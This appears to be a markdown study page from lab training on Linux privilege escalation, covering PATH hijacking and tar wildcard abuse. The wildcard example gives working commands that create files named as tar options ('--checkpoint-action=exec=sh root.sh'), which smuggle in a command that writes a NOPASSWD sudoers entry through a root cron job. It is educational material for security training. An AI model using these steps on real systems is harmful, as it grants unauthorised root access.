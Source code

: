 # Content 
- [Environment-based Privilege Escalation](#environment-based-privilege-escalation)

## Environment-based Privilege Escalation

### Path Abuse
we could replace a common binary such as ls with a malicious script such as a reverse shell.

```shell
$ PATH=.:${PATH}
$ export PATH
$ echo $PATH
```

### Wildcard Abuse
- [Linux-PrivEsc-Wildcard](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)

| Character | Significance                                                   |
|-----------|----------------------------------------------------------------|
| *         | An asterisk that can match any number of characters in a file name. |
| ?         | Matches a single character.                                    |
| [ ]       | Brackets enclose characters and can match any single one at the defined position. |
| ~         | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
| -         | A hyphen within brackets will denote a range of characters.   |


#### EX: privilege escalation in tar

- cron job
```shell
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```
- By creating files with these names, when the wildcard is specified, --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options.
```
$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
$ echo "" > "--checkpoint-action=exec=sh root.sh"
$ echo "" > --checkpoint=1

```

- check the dir , now when the job executed it will run our script  
```shell
$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```
